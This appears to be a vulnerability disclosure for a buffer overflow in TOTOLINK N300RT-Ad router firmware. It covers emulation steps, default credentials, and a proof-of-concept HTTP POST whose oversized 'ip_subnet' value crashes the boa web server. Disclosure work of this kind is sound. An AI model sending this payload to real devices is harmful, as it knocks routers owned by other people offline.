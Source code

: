 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'ip_subnet'` parameter in the 'formPortFw' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT-Ad
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](work_record/TOTOLINK/N300RT_ad/7/img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_00415ae0' is below:
![vulner_code.png](work_record/TOTOLINK/N300RT_ad/7/img/vulner_code.png)
- ​**web_get_var** retrieves POST parameters.
- **sprintf()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test. To trigger the vulner, we set the parameter 'addPortFw' to not None.
Example package
```http
POST /boafrm/formPortFw HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 661  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/wlwps.htm
Cookie: session=1335027320  
Upgrade-Insecure-Requests: 1  
  
addPortFw=1&fw_ip=1&ip_subnet=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

After the request the `boa` process will crash.
![result](work_record/TOTOLINK/N300RT_ad/7/img/result.png)